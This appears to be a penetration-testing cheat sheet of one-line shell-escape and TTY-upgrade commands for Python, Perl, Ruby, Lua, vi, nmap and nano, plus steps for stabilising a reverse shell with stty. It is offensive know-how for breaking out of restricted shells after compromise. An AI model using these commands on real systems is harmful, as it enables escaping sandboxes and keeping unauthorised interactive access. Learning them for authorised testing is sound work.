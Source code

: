 ###### python
```echo os.system("/bin/bash")```

```python -c 'import pty; pty.spawn("/bin/bash")'```


###### perl
```perl -e 'exec "/bin/sh";'```

```exec "/bin/sh"```


###### ruby
```exec "/bin/sh"```


###### lua
```os.execute("/bin/sh")```


###### sh
```/bin/sh -i```


###### Vi
```:!bash```

```:set shell=/bin/bash:shell```


###### nmap
```!sh```


###### nano
```ctrl+r ctrl+x /bin/bash```


###### stty (fixed)
*In reverse shell:*

```python -c 'import pty;pty.spawn("/bin/bash")'```

*ctrl+z (to background)*

*In base OS:*

```stty raw -echo```

```reset```

```export SHELL=bash```

```export TERM=xterm-256color```

```stty rows <num> columns <cols>```
